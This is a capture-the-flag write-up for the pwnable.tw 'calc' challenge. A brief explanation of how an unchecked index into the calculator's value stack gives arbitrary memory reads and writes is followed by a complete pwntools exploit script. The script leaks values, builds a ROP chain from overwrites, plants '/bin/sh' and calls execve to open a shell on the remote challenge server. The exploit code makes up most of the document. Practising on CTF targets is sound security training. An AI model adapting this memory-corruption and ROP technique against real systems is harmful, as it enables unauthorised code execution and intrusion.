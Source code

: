 ### Calc

#### Quick overview - 
Value stack has this structure - `[<number of values><32 bit int><32 bit int>...]`
When we send 1+2, it will take 1, and go to `value_stack[number of values+1]` and write 1 there and then two, and then `eval` just reads value_stack[number_of_values] and [number_of_values-1] and performs whatever operation is given.

Now if we send `+10` only, it will make the value stack like - `[<num of values=1><10>]`. And when eval is called, it will just 10+1 and store it in the 0th index which is the num. of values variable. 

This way, +10 actually results in printing of value of `value_stack+(4*10)`. And similarly, `+10+1` results in `value_stack+(4*10)` being incremented by 1. 

Now we can read ebp value to leak stack location. Then will perform ROP. The only gadget available is an int 0x80 syscall, so we set appropriate conditions to make execve syscall to /bin/sh.



```py
from pwn import *
context.arch = "i386"
exe = context.binary = ELF('calc')

#io = process(exe.path)
io = remote("chall.pwnable.tw", 10100)

io.recvuntil(b" ===\n")
io.sendline(b"-11")
c = io.recvline().strip()
canary = int(c)
log.success(f"canary: {p32(canary& 0xffffffff,endianness='big').hex()}")

def overwrite(off, target):
    io.sendline(f"+{off}".encode())
    old = int(io.recvline().strip()) & 0xffffffff
    diff = old - target
    
    if diff > 0:
        io.sendline(f"+{off}-{diff}".encode())
    else:
        io.sendline(f"+{off}+{abs(diff)}".encode())
    io.recvline()


def address_from_offset(ebp_val, input_offset):
    aslr = ebp_val - 0xffffcdd8
    return 0xffffc818+(input_offset*4)+aslr
    
r = ROP(exe)

##leak ebp
io.sendline(b"+360") #4 byte before eip
ebp = int(io.recvline().strip()) & 0xffffffff
log.info(f"leaked ebp (saved ebp in calc) => {hex(ebp)}".encode())

#set eax to 11
overwrite(361, r.eax.address)
overwrite(362, 11)

#set ecx to null, ebx to /bin/sh
overwrite(363, r.ecx.address) #this is ['pop ecx', 'pop ebx', 'ret']
overwrite(364, address_from_offset(ebp, 502))
overwrite(364, address_from_offset(ebp, 502))
overwrite(365, address_from_offset(ebp, 500)) #will write /bin/sh at 500 offset
overwrite(365, address_from_offset(ebp, 500))

#set edx to null
overwrite(366, r.edx.address)
overwrite(367, address_from_offset(ebp, 502))
overwrite(367, address_from_offset(ebp, 502))
overwrite(368, 0x08049a21)

# set 500 offset to /bin/sh
overwrite(500, 0x6e69622f)
overwrite(501, 0x0068732f)
overwrite(502, 0x0)

io.sendline("abc") ##just to cause expression error and calc will exit

io.interactive()
```